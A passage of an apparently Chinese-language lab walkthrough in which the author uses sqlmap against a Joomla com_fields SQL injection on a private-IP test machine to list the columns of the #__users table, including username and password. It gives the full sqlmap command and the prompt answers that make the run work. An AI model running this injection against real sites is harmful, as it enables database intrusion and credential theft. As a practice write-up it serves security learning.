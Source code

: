 >  
 观察表名，很明显，我们会关注#__users这张表 


#### 4.获取joomladb的users表的字段名

```
sqlmap -u "http://192.168.233.179/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns

```

<img src="https://img-blog.csdnimg.cn/f9c8fda85e8b485582d0d1cbbc886f13.png" alt="在这里插入图片描述">

>  
 第一个选项，直接回车使用默认的“Y” 


<img src="https://img-blog.csdnimg.cn/5cd721b24dbf4b82bef2ee3b2fd6eb8e.png" alt="在这里插入图片描述">

>  
 第二个选项，使用“y”，不要使用默认的，不然会出错 


<img src="https://img-blog.csdnimg.cn/4edf001951094a1585f60172a6989a44.png" alt="在这里插入图片描述">

>  
 第三个选项随意 


<img src="https://img-blog.csdnimg.cn/98c0bda70fbb477f989e15b36c3b70dc.png" alt="在这里插入图片描述">

>  
 第四个选项使用10线程 


<img src="https://img-blog.csdnimg.cn/61ac11071b294c72ab1483064a1cd2b0.png" alt="在这里插入图片描述">

>  
 最终跑出来6个字段 


<img src="https://img-blog.csdnimg.cn/db1e62ad3c9f46c49441e2f775b17cbb.png" alt="在这里插入图片描述">

```
Database: joomladb
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| id       | numeric     |
| name     | non-numeric |
| params   | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+

```
